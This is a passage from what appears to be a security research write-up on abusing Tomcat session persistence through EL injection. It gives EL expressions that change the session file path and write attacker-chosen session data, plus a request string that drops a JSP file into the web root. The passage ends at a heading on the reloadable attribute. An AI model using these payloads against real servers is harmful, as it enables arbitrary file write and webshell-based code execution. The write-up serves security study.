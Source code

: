 Under the default configuration, when Tomcat shuts down the service, it will persist the data in the user session to the local in a serialized form, so that when Tomcat restarts next time, the previous session data can be restored from the locally stored session file, to avoid causing the user session invalid due to service restart before it expires.

The default path for session persistent storage files is SESSIONS.ser in the work application directory:

![image-20220125162004161](media/image-20220125162004161.png)

And by executing the following EL expression, you can modify the storage path of the Session file:

```
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
```

Since using  `.` dot is equivalent to executing the getter method of the object, and `=` equal sign is equivalent to executing the setter method, this entire expression is equivalent to executing:

```
pageContext.getServletContext().getClassLoader().getResources().getContext().getManager().setPathname(request.getParameter("a"));
```

Then write data to the Session by executing the following expression:

```
${sessionScope[param.b]=param.c}
```

In this way, when Tomcat stops the service normally, it can write some content-controllable strings to a file in an arbitrary path (this part will not be filtered and escaped with special characters):

```
?a=/opt/tomcat/webapps/ROOT/session.jsp&b=voidfyoo&c=%3C%25out.println(123)%3B%25%3E
```

### Modify the Context reloadable attribute
